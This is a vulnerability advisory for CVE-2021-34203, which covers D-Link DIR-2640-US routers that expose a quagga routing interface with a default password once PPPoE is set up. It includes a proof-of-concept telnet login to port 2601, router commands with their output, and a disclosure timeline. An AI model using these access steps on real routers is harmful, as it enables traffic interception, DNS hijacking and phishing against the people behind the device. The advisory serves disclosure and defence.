


# Config Error on D-Link Devices

## Overview

- **CVE ID**:  [CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)

- **Type**: Incorret Access Control

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: None

## Severity

**Critical** 9.4 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L

## Description

Router ac2600 (dir-2640-us), when setting PPPoE, will start quagga process in the way of whole network monitoring, and this function uses the original default password and port. An attacker can easily use telnet to log in, modify routing information, monitor the traffic of all devices under the router, hijack DNS and phishing attacks. In addition, this interface is likely to be questioned by customers as a backdoor, because the interface should not be exposed.

## How to Reproduce (POC)

In the network configuration phase, PPPoE is selected to connect to the network.



No matter the router successfully connects to the network, the router will open the following ports for the whole network monitoring.



Then, we can easily log in to quagga with the default password.

```shell
$ telnet 192.168.0.1 2601
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.

Hello, this is Quagga (version 1.1.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.


User Access Verification

Password: 
Router> 
```

Show running system information

```shell
Router# show interface
Interface br0 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
  Link downs:     0  last: (never)
  vrf: 0
  index 14 metric 0 mtu 1500 
  flags: <UP,BROADCAST,RUNNING,MULTICAST>
  Type: Ethernet
  HWaddr: 52:54:00:12:34:58
  inet 192.168.0.1/24 broadcast 192.168.0.255
  inet6 fe80::5054:ff:fe12:3458/64
Interface br1 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
  Link downs:     0  last: (never)
  vrf: 0
  index 15 metric 0 mtu 1500 
  flags: <UP,BROADCAST,RUNNING,MULTICAST>
  Type: Ethernet
  HWaddr: ee:91:50:32:0e:85
  inet6 fe80::ec91:50ff:fe32:e85/64
Interface br2 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
  Link downs:     0  last: (never)
  vrf: 0
  index 16 metric 0 mtu 1500 
  flags: <UP,BROADCAST,RUNNING,MULTICAST>
  Type: Ethernet
  HWaddr: 9e:67:f0:a5:f6:88
  inet6 fe80::9c67:f0ff:fea5:f688/64
Interface br3 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
```

Clear stored data

```shell
Router# clear
% Command incomplete.
```

Write running configuration to memory, network, or terminal

```shell
Router# write
Configuration saved to /tmp/zebra.conf
```

Of coures, there are many things we can do, such as changing the password, configuring the log, and so on.

## Disclosure Timeline

- 9-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment

- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
